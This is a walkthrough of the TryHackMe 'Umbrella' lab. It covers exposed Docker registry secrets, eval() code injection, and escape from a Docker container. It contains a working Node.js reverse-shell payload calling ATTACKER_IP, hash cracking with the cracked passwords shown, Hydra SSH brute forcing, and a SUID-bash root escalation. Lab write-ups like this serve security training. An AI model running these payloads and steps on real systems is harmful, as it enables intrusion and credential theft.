




# TryHackMe — Umbrella

| Field          | Details                                               |
| -------------- | ----------------------------------------------------- |
| **Platform**   | TryHackMe                                             |
| **Room**       | [Umbrella](https://tryhackme.com/room/umbrella)       |
| **Difficulty** | Medium                                                |
| **Category**   | Docker Escape, Web Exploitation, Privilege Escalation |
| **OS**         | Linux                                                 |

## Overview

Umbrella is a medium-difficulty room built around a fictional corporation's internal time-tracking application. The attack chain involves:

1. Enumerating an **exposed Docker registry** to extract sensitive environment variables from image history
2. Exploiting a **Node.js `eval()` injection** vulnerability to gain RCE inside a Docker container
3. **Escaping the container** via a shared volume mount to achieve root on the host machine

---

## Table of Contents

- [Reconnaissance](#reconnaissance)
- [Docker Registry Enumeration](#docker-registry-enumeration)
- [Database Enumeration](#database-enumeration)
- [Initial Foothold — Node.js Code Injection](#initial-foothold--nodejs-code-injection-rce)
- [Container Enumeration & Escape Planning](#container-enumeration--escape-planning)
- [SSH Access to the Host](#gaining-ssh-access-to-the-host)
- [Docker Escape via SUID Bash](#docker-escape-via-suid-bash)
- [Flags](#flags)
- [Key Takeaways](#key-takeaways)

---

## Reconnaissance

Full TCP port scan to enumerate every open port:

```bash
nmap -sS -vv -T4 -p- $target --min-rate 2000 -oN initial.txt
```

```
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 62
3306/tcp open  mysql      syn-ack ttl 61
5000/tcp open  upnp       syn-ack ttl 61
8080/tcp open  http-proxy syn-ack ttl 61
```

Four ports open. Followed up with an aggressive scan on these specific ports:

```bash
nmap -sS -vv -T4 -p 22,3306,5000,8080 -A $target -oN advanced.txt
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 62 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 e8:65:49:91:cd:94:ed:e5:b2:7a:3c:42:41:15:ad:35 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDQEePwzvuF0CIBD9XUg37kSWUqN7ZNbUb5mHZ+9IhEBt89ixW1WgjsYlaZTaQvjQoaq9bFACyAir8QRfXJJ4vCaVEy8p9JDrTQQ9USpu1RRRBdTgp7DMgdneI0Fg4clrLy5KVhAFuJuzL5Cgao9ylTieE1NyX/D8Sa3ebLj5CNRHXB9vwu2cDYbxVL44249XZDFgQRSlnyiQPZ9WqrdQIayJAZ2p+cAq3ydZx2Ki4Lbuzjfpro8tztxI2lKnj+CFjvHlxRZQVQnf4LHs9RCXg8Xr1Azqz8P+sywIFz0mGGsoA4ltERtDBESQYb8/+11KRzX/wqTyK1xOEA/ykjsvuJR7oe1lgs5PnJFN85hlqf1ziB0B7zrUX1XV7dOoYqEDf2SDtze3cZsNXrElGt1CvVXyuGMtkWnqWRDW22iJDnUT/UgH3zupdfh/EiTwGxF+4rYXY8P63TcWbf369n4r+TZB5guGYI3SSTsD/+PsYv0qi3DUL3JluI/R4sitjwtZs=
|   256 d1:48:5a:b0:7a:49:8f:8d:1c:44:5b:b1:4e:c2:10:a3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI4z/CbDcyZHkU4sssu/HMg6PxeHU6Tt2RkkGwovhb/OwzxGDmJNo58SgoeFcAnGaJl3u5qoWyv1qaiIXWF7aoQ=
|   256 81:ed:77:74:36:78:4c:38:34:2f:6c:05:bf:6c:99:7f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBQIInpwgdnxAV22S3DVrhpqImuOySz9fw6T3Trh1G1S
3306/tcp open  mysql   syn-ack ttl 61 MySQL 5.7.40
|_ssl-date: TLS randomness does not represent time
| mysql-info:
|   Protocol: 10
|   Version: 5.7.40
|   Thread ID: 11
|   Capabilities flags: 65535
|   Some Capabilities: SwitchToSSLAfterHandshake, SupportsTransactions, Speaks41ProtocolOld, InteractiveClient, Support41Auth, LongColumnFlag, IgnoreSigpipes, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ConnectWithDatabase, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, ODBCClient, FoundRows, LongPassword, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: \x19x%cxL58OSKV\x0CT+\x06!X\x0D?
|_  Auth Plugin Name: mysql_native_password
| ssl-cert: Subject: commonName=MySQL_Server_5.7.40_Auto_Generated_Server_Certificate
| Issuer: commonName=MySQL_Server_5.7.40_Auto_Generated_CA_Certificate
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-12-22T10:04:49
| Not valid after:  2032-12-19T10:04:49
| MD5:   c512:bd8c:75b6:afa8:fde3:bc14:0f3e:7764
| SHA-1: 8f11:0b77:1387:0438:fc69:658a:eb43:1671:715c:d421
| -----BEGIN CERTIFICATE-----
| MIIDBzCCAe+gAwIBAgIBAjANBgkqhkiG9w0BAQsFADA8MTowOAYDVQQDDDFNeVNR
| TF9TZXJ2ZXJfNS43LjQwX0F1dG9fR2VuZXJhdGVkX0NBX0NlcnRpZmljYXRlMB4X
| DTIyMTIyMjEwMDQ0OVoXDTMyMTIxOTEwMDQ0OVowQDE+MDwGA1UEAww1TXlTUUxf
| U2VydmVyXzUuNy40MF9BdXRvX0dlbmVyYXRlZF9TZXJ2ZXJfQ2VydGlmaWNhdGUw
| ggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQC8KqoE91ydQZJDUqWE/nfs
| 6akfHB2g3D1VJoX+DeuTxEubjmWy+jGOepvEbKEhjrLMl9+LIj3vkKlj1bpRw0x1
| 7tbY7NXPtz5EsOCqDcuGl8XjIBE6ck+4yK8jmzgCMOHhJjoAtcsgAOcnal0WCCyB
| 7IS4uvHi7RSHKPrcAf9wgL5sUZylaH1HWiPXDd0141fVVpAtkkdjOUCPwZtF5MKC
| W6gOfgxMsvYoqY0dEHW2LAh+gw10nZsJ/xm9P0s4uWLKrYmHRuub+CC2U5fs5eOk
| mjIk8ypRfP5mdUK3yLWkGwGbq1D0W90DzmHhjhPm96uEOvaomvIK9cHzmtZHRe1r
| AgMBAAGjEDAOMAwGA1UdEwEB/wQCMAAwDQYJKoZIhvcNAQELBQADggEBAGkpBg5j
| bdmgMd30Enh8u8/Z7L4N6IalbBCzYhSkaAGrWYh42FhFkd9aAsnbawK+lWWEsMlY
| +arjrwD0TE6XzwvfdYsVwOdARPAwm4Xe3odcisBvySAeOE6laaCnIWnpH/OqGDEk
| GBYfI8+e0CBdjhDNpeWVJEkGv4tzaf6KE1Ix9N2tTF/qCZtmHoOyXQQ7YwBPMRLu
| WnmAdmtDYqVEcuHj106v40QvUMKeFgpFH37M+Lat8y3Nn+11BP5QzRLh+GFuQmVc
| XaDxVdWXCUMWsbaPNNS+NM9FT7WNkH7xTy2NuBdSFvl88tXNZpnz8nkRxXLarLD8
| 2AE6mQqpFHhaSRg=
|_-----END CERTIFICATE-----
5000/tcp open  http    syn-ack ttl 61 Docker Registry (API: 2.0)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title.
8080/tcp open  http    syn-ack ttl 61 Node.js (Express middleware)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Login
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Linux 4.15 - 5.19 (96%), Linux 4.15 (96%), Linux 5.4 (96%), Android 10 - 12 (Linux 4.14 - 4.19) (93%), Adtran 424RG FTTH gateway (92%), Android 9 - 10 (Linux 4.9 - 4.14) (92%), Android 12 (Linux 5.4) (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%)
```

> **Key finding:** Port 5000 is a **Docker Registry API**. Exposed registries often contain hardcoded credentials and sensitive environment variables baked into image layers.

---

## Docker Registry Enumeration

The [Docker Registry HTTP API v2](https://docs.docker.com/registry/spec/api/) is well-documented and unauthenticated here. We walked through it systematically.

**Confirm API is live:**

```bash
curl http://<TARGET_IP>:5000/v2/
# {}  ← empty JSON = accessible and unauthenticated
```

**List available repositories:**

```bash
curl http://<TARGET_IP>:5000/v2/_catalog
# {"repositories":["umbrella/timetracking"]}
```

**List available tags:**

```bash
curl http://<TARGET_IP>:5000/v2/umbrella/timetracking/tags/list
# {"name":"umbrella/timetracking","tags":["latest"]}
```

**Fetch the image manifest:**

```bash
curl http://<TARGET_IP>:5000/v2/umbrella/timetracking/manifests/latest | tee manifest.json
```

The `history` field in Docker manifests stores each layer's build command in plaintext. Scanning through the output revealed a layer containing the application's environment variables:

```json
"Env": [
  "PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin",
  "NODE_VERSION=19.3.0",
  "YARN_VERSION=1.22.19",
  "DB_HOST=db",
  "DB_USER=root",
  "DB_PASS=<REDACTED>",
  "DB_DATABASE=timetracking",
  "LOG_FILE=/logs/tt.log"
]
```

**Extract with grep:**

```bash
grep -i "DB_PASS" manifest.json
```

We now had valid MySQL credentials: `root:<REDACTED>`.

---

## Database Enumeration

Connected to the remote MySQL instance directly. The `--ssl-verify-server-cert=false` flag bypasses the self-signed certificate:

```bash
mysql -h <TARGET_IP> --ssl-verify-server-cert=false -u root -p
```

```sql
show databases;
use timetracking;
show tables;
select * from users;
```

```
+----------+----------------------------------+-------+
| user     | pass                             | time  |
+----------+----------------------------------+-------+
| claire-r | <MD5_HASH>                       |   360 |
| chris-r  | <MD5_HASH>                       |   420 |
| jill-v   | <MD5_HASH>                       |   564 |
| barry-b  | <MD5_HASH>                       | 47893 |
+----------+----------------------------------+-------+
```

Four user accounts with MD5-hashed passwords. Saved hashes to a file and ran hashcat:

```bash
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

All four hashes cracked in under 2 seconds:

```
Host memory required for this attack: 807 MB

Dictionary cache hit:
* Filename..: D:\wordlist\rockyou.txt
* Passwords.: 14344377
* Bytes.....: 139922101
* Keyspace..: 14344377

d5c0607301ad5d5c1528962a83992ac8:sunshine1
2ac9cb7dc02b3c0083eb70898e549b63:Password1
0d107d09f5bbe40cade3de5c71e9e9b7:letmein
4a04890400b5d7bac101baace5d7e994:sandwich

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: D:\THM\hashes.txt
Time.Started.....: Mon May 25 19:14:14 2026 (1 sec)
Time.Estimated...: Mon May 25 19:14:15 2026 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (D:\wordlist\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 72894.7 kH/s (3.66ms) @ Accel:2048 Loops:1 Thr:32 Vec:1
Recovered........: 4/4 (100.00%) Digests (total), 4/4 (100.00%) Digests (new)
Progress.........: 3014656/14344377 (21.02%)
Rejected.........: 0/3014656 (0.00%)
Restore.Point....: 0/14344377 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> tylerandariel
Hardware.Mon.#1..: Temp: 45c Fan: 36% Util:  6% Core:1725MHz Mem:6801MHz Bus:16

Started: Mon May 25 19:14:13 2026
Stopped: Mon May 25 19:14:15 2026
PS C:\hashcat>

```

## Initial Foothold — Node.js Code Injection (RCE)



Port 8080 hosts a Node.js/Express web application with a login form. Any of the four recovered credentials worked.



After logging in, the dashboard presented a time-tracking input field that appeared to evaluate mathematical expressions — entering `6+6` correctly added `12` to the statistics.



Submitting a non-numeric string returned a verbose error revealing that Node.js's **`eval()`** function was being used under the hood. This is a critical vulnerability — `eval()` executes arbitrary JavaScript.



Set up a listener:

```bash
nc -lvp 4444
```

Submitted the following Node.js reverse shell payload through the time-tracking input field:

```javascript
;(function () {
  var net = require('net'),
    cp = require('child_process'),
    sh = cp.spawn('sh', [])
  var client = new net.Socket()
  client.connect(4444, '<ATTACKER_IP>', function () {
    client.pipe(sh.stdin)
    sh.stdout.pipe(client)
    sh.stderr.pipe(client)
  })
  return /a/
})()
```

Got a shell back as `root` — but inside a **Docker container**, not the host OS.

**Shell stabilisation** (`python3` was unavailable in the container, so used `script` instead):

```bash
script /dev/null -c bash
# Ctrl+Z
stty raw -echo; fg
export TERM=xterm
```

---

## Container Enumeration & Escape Planning

Ran `linPEAS` and enumerated mounted filesystems:

```bash
mount | grep -v "proc\|sys\|cgroup\|dev\|tmpfs"
```

The critical finding:

```
/dev/mapper/ubuntu--vg-ubuntu--lv on /logs type ext4 (rw,relatime)
```

The `/logs` directory inside the container is **directly mounted from the host filesystem**. This is the same path referenced in the `LOG_FILE` environment variable we found earlier (`/logs/tt.log`).

```bash
root@container:/logs# ls -la
# -rw-r--r-- 1 root root 64 tt.log

root@container:/logs# cat tt.log
# [INFO] User claire-r logged in
# [INFO] claire-r added 0 minutes.
```

This confirmed the shared mount. The escape path was clear.

---

## Gaining SSH Access to the Host

Before attempting the container escape, we tested whether any cracked users had SSH access on the host using Hydra:

```bash
hydra -L users.txt -P passwords.txt <TARGET_IP> ssh
```

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-05-26 09:13:13
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 16 login tries (l:4/p:4), ~1 try per task
[DATA] attacking ssh://10.49.142.45:22/
[22][ssh] host: 10.49.142.45   login: claire-r   password: <Redacted>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-05-26 09:13:17
```

`claire-r` reused her password on the host. Logged in over SSH:

```bash
ssh claire-r@<TARGET_IP>
```

Found `user.txt` in her home directory:

```bash
cat ~/user.txt
# THM{<REDACTED>}
```

Also found `~/timeTracker-src/logs/` — confirming this is the **host-side mount point** for `/logs` inside the container. Both sides show the same `tt.log` file.

```bash
claire-r@ip-10-49-142-45:~/timeTracker-src/logs$ ls -la
total 12
drwxrw-rw- 2 claire-r claire-r 4096 Dec 22  2022 .
drwxrwxr-x 6 claire-r claire-r 4096 Dec 22  2022 ..
-rw-r--r-- 1 root     root       64 May 26 03:54 tt.log
claire-r@ip-10-49-142-45:~/timeTracker-src/logs$ cat tt.log
[INFO] User claire-r logged in
[INFO] claire-r added 0 minutes.
```

---

## Docker Escape via SUID Bash

With:

- Root access inside the container
- Write access to `/logs` (mounted from the host)
- Shell access on the host as `claire-r`

The classic escape technique: copy a shell binary into the shared mount **from the container** (where we're root), set the SUID bit, then execute it **from the host** to get a root shell.

**Step 1 — Inside the container (as root):**

```bash
cp /bin/bash /logs
chmod +s /logs/bash
ls -la /logs/bash
# -rwsr-sr-x 1 root root 1234376 bash
```

**Step 2 — On the host (as claire-r):**

```bash
ls -la ~/timeTracker-src/logs/bash
# -rwsr-sr-x 1 root root 1234376 bash  ← SUID bit set, owned by root ✓

./bash -p   # -p flag preserves the SUID privileges
```

```bash
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
THM{<REDACTED>}
```

---

## Flags

| Flag       | Location                  |
| ---------- | ------------------------- |
| `user.txt` | `/home/claire-r/user.txt` |
| `root.txt` | `/root/root.txt`          |

---

## Key Takeaways

- **Exposed Docker registries are high-value targets.** Image manifests store full build history including environment variables — credentials baked into a `Dockerfile` ENV instruction are trivially extractable without any authentication.
- **`eval()` on user input is always critical RCE.** No amount of input filtering makes it safe; the function should never process untrusted data.
- **Shared volume mounts break container isolation.** A container running as root with write access to a host-mounted directory can trivially escalate to host root via SUID binaries.
- **Password reuse across services is extremely common** in CTF and real-world environments alike. Always test cracked credentials against every exposed service.
